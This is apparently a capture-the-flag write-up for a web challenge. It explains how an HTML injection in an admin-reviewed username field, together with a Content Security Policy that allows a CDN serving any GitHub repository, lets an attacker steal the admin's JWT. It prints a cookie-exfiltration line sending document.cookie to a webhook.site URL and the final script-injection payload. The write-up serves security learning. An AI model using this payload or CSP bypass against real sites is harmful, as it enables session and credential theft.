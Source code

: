 # XSS > CDN Abuse

## Website

<img src= "cursed_party_website.png">

## Description

Anytime we see "this will be reviewed" "stored for review" Admin will review" we can think XSS attack.
Also, the Docker file installs google chrome, which potentialy indicates client-side exploit.
After reviewing the source code, we can see that on the admin page. We notice the username field is vulnerable to HTML injection because it is piping the user's input to 'safe' without any sanitization.
We can also see that the flag is inside of the JSON Web Token(JWT). So we need to get the JWT in order to get the flag. 
After inspecting a request, we also see that a CDN is being used in the Content Security Policy.
I used csp-evaluator to analyze the weaknesses of this content security policy(CSP):
<img src= 'scp.png'>
Using this CDN, we can pull repositories from GitHub.. Any repository.. Leaving a hole in the CSP for out XSS attack.
So I setup a webhook at webhook.site
Then I create a repository on my GitHub with the payload to get the Admin's JWT and sent it to my webhook.
Once I received the request to my webhook, i was able to base64 decoded the token and get the flag.

## Set Up

1. Burpsuite Repeater/collaborator(Testing).
2. Grab webhook.site URL to send the token.
3. Javacript file hosted on GitHub.
   ```javascript
   fetch('https://webhook.site/<random>?cookie=' + document.cookie);
4. The final XSS payload looked like this:
   ```javascript
   <script src="https://cdn.jsdelivr.net/gh/rosepwns/test/test.js"</script>

## More Information

[XSS Filter Evasion](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
